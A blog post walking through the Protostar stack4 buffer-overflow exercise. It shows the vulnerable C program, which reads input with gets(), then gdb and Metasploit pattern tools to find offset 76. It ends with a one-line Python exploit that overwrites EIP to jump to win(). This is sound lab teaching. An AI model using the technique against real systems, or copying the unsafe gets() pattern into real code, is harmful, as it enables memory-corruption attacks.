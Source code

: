 ```yaml
---
layout: post
title: Buffer Overflow Examples, Taking control of the instruction pointer - protostar stack4
categories: binary-exploitation
tags: [linux, binary-exploitation, buffer-overflow, c, python]
description: Another buffer overflow example where I overwrite EIP to redirect code execution. (x32)
image: binary-exploitation/BOF4/0.png
---
```


<hr>
## Introduction
<br> Hey again ,Today's article is going to be short. So last time I solved stack3 , I'm back again and today I'm going to solve stack4 which is really interesting , it's slightly different from stack3 but that difference is a new thing to see if we compare it to the previous challenges. So let's not talk too much and jump right in.
<br> Read my [other articles about buffer overflow](/categories)
![](/images/binary-exploitation/BOF4/0.png)
<hr>
## ./stack4
<br> Let's take a look at the source code first :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
<br> Very simple ! it defines the `win` function then defines the `main` function which sets a buffer of 64 chars and stores our input in it. But wait a second where is the variable that we're gonna overwrite ? in the previous challenges we had a variable that is being used by a function to change the code flow , now what will we overwrite ?
<br> The answer is the `EIP` which is the instruction pointer. And the instruction pointer is a memory address that holds the address of the next instruction in the program during execution. So if we overwrite that address the program will execute whatever that address refers to. let's try to exceed the buffer.
`python -c "print 'A' * 64"`
![](/images/binary-exploitation/BOF4/1.png)
<br> The program didn't even crash ... why ? Because the return address is not directly after the buffer like in the previous challenges , Let's try 100 chars 
`python -c "print 'A' * 100"`
![](/images/binary-exploitation/BOF4/2.png)
<br> The program crashed , Let's find where does it exactly crash like we did in the [previous challenge](/binary-exploitation/bof3) read it if you haven't done yet.
<br> We will create a pattern with `pattern_create`
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF4/3.png)
<br> Then we will pass it to the program in gdb 
![](/images/binary-exploitation/BOF4/4.png)
<br> It crashes at `0x63413563`
<br> We locate that with pattern_offset
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF4/5.png)
<br> We get exact match at offset 76
<br> Next step is to find the address of `win()` 
`objdump -d`
![](/images/binary-exploitation/BOF4/6.png)
<br> The address is `0x080483f4`
<br> Now we can build our exploit : 
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4`
![](/images/binary-exploitation/BOF4/7.png)
<br> And we successfully changed the code flow !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Binary Exploitation article : [Buffer Overflow Examples, Overwriting a function pointer - protostar stack3](/binary-exploitation/bof3/)
<br> Next Binary Exploitation article : [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](/binary-exploitation/bof5/)
<hr>
